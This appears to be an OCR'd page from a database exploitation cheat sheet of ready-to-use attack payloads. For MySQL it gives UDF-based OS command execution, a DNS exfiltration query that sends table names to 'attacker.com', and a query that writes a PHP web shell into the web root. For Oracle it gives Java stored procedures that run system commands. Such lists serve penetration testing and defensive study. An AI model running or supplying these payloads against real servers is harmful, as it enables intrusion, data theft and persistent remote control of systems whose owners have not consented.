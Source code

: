 ### MySQL

#### UDF (User Defined Functions) for Remote Command Execution
```sql
CREATE TABLE foo(line BLOB);
INSERT INTO foo VALUES (LOAD_FILE('/usr/lib/lib_mysqludf_sys.so'));
SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
SELECT sys_exec('id > /tmp/out; chown mysql.mysql /tmp/out');
```
This technique involves creating a UDF to execute system commands.

#### DNS Exfiltration
```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT table_name FROM information_schema.tables LIMIT 0,1), '.attacker.com\\a'));
```
This exfiltrates data through DNS requests to an attacker-controlled domain.

#### Binary Log Injections
```sql
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
This exploits the binary log feature to write a web shell.

### Oracle

#### Java Procedures for Command Execution
```sql
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '' );
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '' );

CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "cmd" AS
import java.io.*;
public class cmd {
   public static String run(String cmd) {
      try {
         StringBuffer output = new StringBuffer();
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
         String line = "";
         while ((line = reader.readLine())!= null) {
            output.append(line + "\n");
         }
         return output.toString();
      } catch (Exception e) {
         return e.toString();
      }
   }
};
/

CREATE OR REPLACE FUNCTION run_cmd(p_cmd IN VARCHAR2) RETURN VARCHAR2
AS LANGUAGE JAVA
NAME 'cmd.run(java.lang.String) return java.lang.String';
/

```